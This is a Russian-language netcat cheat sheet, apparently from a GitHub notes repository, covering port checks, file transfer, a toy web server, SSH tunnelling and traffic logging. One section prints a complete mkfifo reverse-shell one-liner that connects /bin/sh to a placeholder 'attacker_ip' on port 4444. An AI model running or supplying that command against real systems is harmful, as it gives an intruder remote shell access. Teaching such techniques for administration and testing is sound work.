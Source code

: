 Утилита `netcat` — это мощный инструмент командной строки Linux, предназначенный для передачи данных между сетевыми устройствами через TCP/IP соединения. 
Она позволяет отправлять и получать данные по сети, проверять доступность сервисов, эмулировать клиентские запросы и серверные ответы, создавать туннели и многое другое. 

## Простые примеры

### Проверка доступности веб-сайта
Проверяем возможность подключения к порту HTTP сервера:
```bash
nc -vz example.com 80
```
Флаг `-v` включает подробный вывод, а `-z` заставляет Netcat немедленно закрывать соединение после проверки порта.

### Передача файла на удалённый хост
Передача локального файла на удалённую машину:
**Приёмник (сервер):**
```bash
nc -l 1234 > received_file.txt
```
**Отправитель (клиент):**
```bash
nc example.com 1234 < local_file.txt
```

### Эмуляция простого веб-сервера
Можно создать простой веб-сервер, возвращающий статический HTML-документ:
```bash
echo "<html><body><h1>Hello World!</h1></body></html>" | nc -l 8080
```
Теперь открываем браузер и вводим адрес `http://localhost:8080`, увидим простую страницу с текстом.

---

## Сложные примеры

### Создание обратного шелла (обратная оболочка)
Используется злоумышленниками для проникновения в систему. Для демонстрации приведён пример безопасного тестирования.

**Сервер (хост, ожидающий подключение):**
```bash
nc -lvnp 4444
```
**Клиент (машина жертвы, отправляющая команду оболочки):**
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker_ip 4444 >/tmp/f
```
Здесь создаётся FIFO-файл (`mkfifo`), который перенаправляет команды обратно атакующему хосту, создавая интерактивную сессию оболочки.

### Фильтрация трафика через SSH-туннелирование
Netcat также полезен для создания защищённых каналов связи через SSH. Например, передайте трафик через зашифрованный канал SSH, минуя внешние ограничения сети:
```bash
ssh user@remote_host -L 8080:example.com:80
```
Затем внутри сессии SSH выполняем:
```bash
nc localhost 8080
```
Это создаёт прокси-соединение от вашего компьютера к целевому сайту через шифрование SSH.

### Автоматическое создание дампа трафика в файл
Иногда полезно сохранять весь проходящий трафик через сеть в файл для последующего анализа:
```bash
nc -lvp 1234 | tee traffic_dump.log
```
Эта команда прослушивает порт и сохраняет всю входящую информацию в файл одновременно показывая её на экране терминала.

---

Netcat отлично подходит для быстрой передачи файлов между двумя машинами. 
Вот два основных способа передать файлы с использованием Netcat:

### Способ №1: Классическая передача через перенаправление ввода-вывода

#### Сервер (принимающая сторона):
1. Запустите Netcat в режиме ожидания подключений на определённом порту и направьте входящий поток данных в нужный файл:
   ```bash
   nc -lvp PORT_NUMBER > FILE_NAME
   ```
   
   Пример:
   ```bash
   nc -lvp 1234 > myfile.txt
   ```

   Здесь:
   - `-l`: режим слушателя (слушает входящие соединения).
   - `-v`: выводит дополнительную информацию (детали подключения).
   - `-p`: указывает номер порта для прослушивания.
   - `<FILE_NAME>`: имя файла, куда будут записаны полученные данные.

#### Клиент (отправляющая сторона):
1. Подключитесь к указанному IP адресу и порту, передав содержимое файла в качестве вывода:
   ```bash
   nc SERVER_IP PORT_NUMBER < FILE_NAME
   ```
   
   Пример:
   ```bash
   nc 192.168.1.100 1234 < file_to_send.txt
   ```

   Таким образом, отправляемый файл передаётся по сети на принимающую сторону, где он сохраняется в указанный файл.

---

### Способ №2: Использование встроенных команд для автоматизации процесса отправки и приёма

Если вам нужен автоматизированный способ отправки и приёмки файла одним простым действием, можно воспользоваться комбинацией Netcat и Bash-сценарием.

#### Отправка файла автоматически:
```bash
#!/bin/bash
IP="REMOTE_SERVER_IP"
PORT=1234
FILE="myfile.txt"

# Отправляем файл
nc "$IP" "$PORT" < "$FILE"
```

#### Приём файла автоматически:
```bash
#!/bin/bash
PORT=1234
OUTPUT_FILE="received_file.txt"

# Ждём подключения и сохраняем полученный файл
nc -lvp "$PORT" > "$OUTPUT_FILE"
```

Таким образом, оба сценария работают вместе: один запускается на стороне клиента для отправки файла, другой — на стороне сервера для его приёма.
Использовать netcat для передачи файлов вместе с SSY-туннелем. См.: [SSY-tunnel](https://github.com/sherbettt/BASH-cheats/blob/main/12.2.%20SSH-туннель%20и%20sshuttle.md)

---


